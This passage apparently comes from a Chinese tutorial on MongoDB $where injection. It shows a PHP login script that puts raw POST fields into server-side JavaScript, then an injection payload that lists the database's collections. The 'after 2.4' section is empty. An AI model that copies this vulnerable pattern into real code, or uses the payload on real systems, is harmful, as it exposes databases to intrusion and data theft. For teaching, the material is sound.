 > 



> 



```
&lt;?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];
$function = "
function() { 
	var username = '".$username."';
	var password = '".$password."';
	if(username == 'admin' &amp;&amp; password == 'admin123'){
		return true;
	}else{
		return false;
	}
}";
$query = new MongoDB\Driver\Query(array(
    '$where' =&gt; $function
));
$result = $manager-&gt;executeQuery('test.users', $query)-&gt;toArray();
$count = count($result);
if ($count &gt; 0) {
	foreach ($result as $user) {
		$user = ((array)$user);
		echo "Login Success".PHP_EOL;
		echo 'username:' . $user['username'].PHP_EOL;
		echo 'password:' . $user['password'].PHP_EOL;
	}
} else {
	echo 'Login Failed';
}
?&gt;

```

##### MongoDB 2.4 之前

> 



```
username=1&amp;password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1

```

##### MongoDB 2.4 之后

> 

